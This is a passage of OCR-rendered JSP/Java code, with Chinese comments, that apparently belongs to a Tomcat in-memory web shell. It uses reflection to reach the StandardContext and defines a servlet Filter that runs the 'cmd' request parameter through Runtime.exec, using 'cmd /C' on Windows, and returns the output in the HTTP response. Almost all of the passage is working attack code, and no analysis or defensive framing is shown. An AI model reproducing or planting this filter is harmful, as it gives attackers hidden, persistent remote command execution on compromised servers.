 ```jsp
                Object engine = engineField.get(service);


                Field children1 = engine.getClass().getSuperclass().getDeclaredField("children");
                children1.setAccessible(true);
                //这里得到的hashMap的entry 存的是域名和host的对应关系
                HashMap engineMap = (HashMap) children1.get(engine);

                //获取host
                StandardHost standardHost=(StandardHost)engineMap.values().iterator().next();

                Field declaredField = standardHost.getClass().getSuperclass().getDeclaredField("children");
                declaredField.setAccessible(true);
                HashMap contextMap = (HashMap)declaredField.get(standardHost);

               standardContext = (StandardContext)contextMap.values().iterator().next();

            }
        }


    }

    Filter filter = new Filter() {
        @Override
        public void init(FilterConfig filterConfig) throws ServletException {

        }

        @Override
        public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
            String cmd = request.getParameter("cmd");
            StringBuffer res = new StringBuffer();
            //加一个系统的判断
            String os = System.getProperty("os.name");
            boolean isWin = false;
            BufferedReader bufferedReader;
            if (os != null && os.toLowerCase().startsWith("windows")) {
                isWin = true;
            }

            try {
                if (isWin == false) {
                    bufferedReader = new BufferedReader(new InputStreamReader(Runtime.getRuntime().exec(cmd).getInputStream()));
                } else {
                    bufferedReader = new BufferedReader(new InputStreamReader(Runtime.getRuntime().exec("cmd /C " + cmd).getInputStream()));
                }

                String len;
                while ((len = bufferedReader.readLine()) != null) {
                    res.append(len + "\n");
                }

            } catch (Exception e) {
                res.append(e.getMessage());

            }
            response.getWriter().print("<pre>" + res.toString() + "</pre>");
        }
```